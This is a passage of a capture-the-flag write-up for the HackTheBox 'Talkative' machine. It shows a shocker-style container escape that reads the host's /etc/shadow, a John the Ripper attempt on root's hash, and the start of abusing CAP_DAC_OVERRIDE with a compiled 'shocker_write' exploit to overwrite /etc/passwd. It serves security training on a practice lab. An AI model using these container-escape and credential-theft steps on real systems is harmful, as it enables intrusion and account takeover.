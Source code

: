 ```shell
[*] Found lsb-release
[*] Found rsyslog.conf
[*] Found rc6.d
[*] Found calendar
[*] Found fstab
[*] Found shadow
[+] Match: shadow ino=393228
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

```shell
cat /tmp/shadow
root:$6${Redacted}:19066:0:99999:7:::
[...]
saul:$6${Redacted}:19058:0:99999:7:::
```

**Nice! Let's try to crack `root`'s password hash:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:27:40(HKT)]
└> nano root.hash
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:27:47(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt root.hash                
[...]
```

But no dice...

> Note: You can just get the root flag in here, but I decided to get a root shell.

To get a root shell on the host machine, we can abuse a capability called `CAP_DAC_OVERRIDE`. 

According to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override), **`shocker.c` also has the capability of writing files.** Although it doesn't shown in the previous decoded `CapEff`, the exploit works.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812194158.png)

**Statically compile the `shocker_write` exploit:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:42:05(HKT)]
└> nano shocker_write.c
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:42:18(HKT)]
└> gcc -Wall -std=c99 -O2 shocker_write.c -static -o shocker_write_static
[...]
```

**Copy the original `/etc/passwd` on the host machine to a file:**
```shell
saul@talkative:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```